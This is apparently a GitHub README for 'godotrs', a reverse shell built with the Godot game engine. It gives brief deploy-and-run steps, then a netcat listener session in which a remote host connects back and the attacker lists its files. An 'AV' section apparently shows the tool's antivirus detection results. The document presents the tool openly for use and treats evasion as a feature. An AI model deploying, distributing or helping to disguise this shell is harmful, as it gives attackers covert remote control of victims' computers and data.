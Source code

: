 # godotrs

portable godot based reverse shell

https://godotengine.org/download/

**Usage**

deploy & run:
- godotrs.exe
- godotrs.pck

```
root@kali:~# nc -lvp 9999
listening on [any] 9999 ...
192.168.1.71: inverse host lookup failed: Unknown host
connect to [192.168.1.101] from (UNKNOWN) [192.168.1.71] 58913
ls -lha
>[total 107664
drwxr-xr-x  14 WOPR  staff   448B Dec 17 09:15 .
drwxr-xr-x@  5 WOPR  staff   160B Dec 17 06:59 ..
drwxr-xr-x   4 WOPR  staff   128B Dec 17 06:59 .import
-rw-r--r--   1 WOPR  staff   500B Dec 17 08:47 Popup.gd
-rw-r--r--   1 WOPR  staff   191B Dec 17 09:15 Popup.tscn
-rw-r--r--   1 WOPR  staff   163B Dec 17 09:15 default_env.tres
-rw-r--r--   1 WOPR  staff   774B Dec 17 09:12 export_presets.cfg
-rw-r--r--   1 WOPR  staff   9.6M Dec 17 09:06 godotrs.appx
-rw-r--r--@  1 WOPR  staff    15M Dec 17 09:02 godotrs.dmg
-rw-r--r--   1 WOPR  staff    27M Dec 17 09:12 godotrs.exe
-rw-r--r--   1 WOPR  staff    18K Dec 17 09:12 godotrs.pck
-rw-r--r--@  1 WOPR  staff   7.4K Dec 17 06:59 icon.png
-rw-r--r--   1 WOPR  staff   640B Dec 17 06:59 icon.png.import
-rw-r--r--@  1 WOPR  staff   736B Dec 17 09:15 project.godot
```

**AV**

<img width="1401" alt="Screenshot 2019-12-17 at 09 13 29" src="https://user-images.githubusercontent.com/56988989/70982133-5d4dce80-20ae-11ea-84ca-e7b76b4847c7.png">

**Limitations**
- gfx support required
